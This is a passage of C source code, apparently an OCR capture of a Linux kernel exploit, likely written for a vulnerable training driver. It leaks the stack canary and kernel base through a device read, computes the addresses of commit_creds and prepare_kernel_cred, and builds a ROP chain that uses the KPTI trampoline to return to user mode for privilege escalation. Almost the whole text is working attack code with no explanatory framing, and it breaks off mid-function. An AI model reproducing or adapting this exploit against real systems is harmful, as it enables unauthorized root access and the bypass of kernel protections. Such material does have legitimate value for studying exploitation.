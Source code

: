    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    printf("[+] leaked cookie: 0x%lx\n", cookie);
    kernel_base = leak[38] - 0x0a157UL;
    printf("[+] leaked kernel_base 0x%lx\n", kernel_base);
    ksymtab_prepare_kernel_cred = kernel_base + 0xf8d4fcUL;
    printf("[+] leaked ksymtab_prepare_kernel_cred 0x%lx\n", ksymtab_prepare_kernel_cred);
    ksymtab_commit_creds = kernel_base + 0xf87d90UL;
    printf("[+] leaked ksymtab_commit_creds 0x%lx\n", ksymtab_commit_creds);

    pop_rax_ret = kernel_base + 0x4d11UL;
    pop_rdi_pop_rbx_ret = kernel_base + 0x745dUL;
    read_mem_pop1_ret = kernel_base + 0x4aaeUL; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
    swapgs_restore_regs_and_return_to_usermode = kernel_base + 0x200f10UL; // the offset from /proc/kallsyms
}

void stage1();
void stage2();
void stage3();
void stage4();
void get_commit_creds();

/*
The first stage computes the memory location of the symbol commit_creds
*/
void stage1(){
    uint8_t sz = 50;
    uint64_t payload[sz];
    uint64_t cookie_off = 16;

    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rax_ret;
    payload[cookie_off++] = (uint64_t) ksymtab_commit_creds - 0x10;
    payload[cookie_off++] = (uint64_t) read_mem_pop1_ret;
    payload[cookie_off++] = (uint64_t) 0; // dummy pop

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // The KPTI trampoline
    payload[cookie_off++] = (uint64_t) 0; // dummy rax
    payload[cookie_off++] = (uint64_t) 0; // dummy rdi

    payload[cookie_off++] = (uint64_t) get_commit_creds;  // compute the location of commit_creds

    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

void get_commit_creds(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp, rax;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp;
    printf("[+] leaked commit_creds 0x%lx\n", commit_creds);
    stage2();